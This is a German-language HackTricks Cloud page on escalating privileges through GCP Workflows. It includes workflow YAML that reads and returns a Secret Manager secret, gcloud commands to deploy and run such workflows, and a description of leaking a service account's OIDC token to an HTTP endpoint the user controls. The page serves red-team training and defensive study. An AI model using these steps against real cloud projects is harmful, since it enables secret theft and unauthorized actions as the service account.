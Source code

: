 # GCP - Workflows Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Workflows

Grundinformationen:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Soweit ich weiß, ist es nicht möglich, eine Shell mit Zugriff auf den Metadaten-Endpunkt zu erhalten, der die SA-Anmeldeinformationen des SA enthält, das an einen Workflow angehängt ist. Es ist jedoch möglich, die Berechtigungen des SA zu missbrauchen, indem man die auszuführenden Aktionen innerhalb des Workflows hinzufügt.

Es ist möglich, die Dokumentation der Connectoren zu finden. Zum Beispiel ist dies die [**Seite des Secretmanager-Connectors**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** In der Seitenleiste sind mehrere andere Connectoren zu finden.

Und hier finden Sie ein Beispiel für einen Connector, der ein Geheimnis druckt:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Aktualisierung über die CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Wenn Sie keinen Webzugang haben, ist es möglich, die Ausführung eines Workflows auszulösen und zu sehen mit:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Sie können auch die Ausgabe vorheriger Ausführungen überprüfen, um nach sensiblen Informationen zu suchen.
{% endhint %}

Beachten Sie, dass selbst wenn Sie einen Fehler wie `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` erhalten, weil Sie diese Berechtigung nicht haben, der Workflow generiert wurde.

### Leak OIDC-Token (und OAuth?)

Laut [**den Dokumenten**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) ist es möglich, Workflow-Schritte zu verwenden, die eine HTTP-Anfrage mit dem OAuth- oder OIDC-Token senden. Allerdings muss die HTTP-Anfrage mit dem OAuth-Token, wie im Fall von [Cloud Scheduler](gcp-cloudscheduler-privesc.md), an den Host `.googleapis.com` gerichtet sein.

{% hint style="danger" %}
Daher ist es **möglich, das OIDC-Token zu leaken, indem man einen HTTP-Endpunkt** angibt, der vom Benutzer kontrolliert wird, aber um das **OAuth**-Token zu leaken, benötigen Sie **einen Bypass** für diesen Schutz. Sie können jedoch weiterhin **jede GCP-API kontaktieren, um im Namen des SA Aktionen auszuführen**, entweder über Connectoren oder HTTP-Anfragen mit dem OAuth-Token.
{% endhint %}

#### OAuth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Mit dieser Berechtigung anstelle von `workflows.workflows.create` ist es möglich, einen bereits bestehenden Workflow zu aktualisieren und die gleichen Angriffe durchzuführen.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

